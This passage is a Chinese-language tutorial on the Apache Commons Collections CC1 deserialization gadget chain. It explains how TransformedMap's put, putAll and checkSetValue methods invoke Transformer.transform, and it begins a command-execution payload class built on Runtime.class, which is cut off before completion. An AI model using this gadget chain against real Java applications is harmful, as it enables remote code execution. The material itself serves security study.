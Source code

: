 利用`decorate`方法，来进行实例化

```java
 public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }
```

实例化需要传入三个参数——被修饰的Map对象、对键与值操作的Transformer对象

`transformKey/transformValue/transformMap/checkSetValue`方法，可以触发回调函数transform



我们找到触发transform方法的入口了，也就是说我们要新建一个TransformedMap，然后设置keyTransformer/valueTransformer为上面为了RCE构造的ChainedTransformer，接着找这三个方法在哪触发

####  利用put和putall函数

对键值进行操作：如果设置了keyTransformer/valueTransformer，每次put前要将键值过一遍对应Transformer的transform方法

```java
public Object put(Object key, Object value) {
        key = this.transformKey(key);
        value = this.transformValue(value);
        return this.getMap().put(key, value);
    }

    public void putAll(Map mapToCopy) {
        mapToCopy = this.transformMap(mapToCopy);
        this.getMap().putAll(mapToCopy);
    }
```

####  利用父类setValue方法，调用checkSetValue

子类：

```java
protected Object checkSetValue(Object value) {
        return this.valueTransformer.transform(value);
    }
```

父类：

```java
 public Object setValue(Object value) {
            value = this.parent.checkSetValue(value);
            return super.entry.setValue(value);
        }
```

##  命令执行

### ChainedTransformer+put触发命令执行

```java
package payload.cc1;
import java.util.Map;
import java.util.HashMap;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.map.TransformedMap;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class payload2 {
    public static void main(String[] args) {
        ConstantTransformer ct = new ConstantTransformer(Runtime.class);
```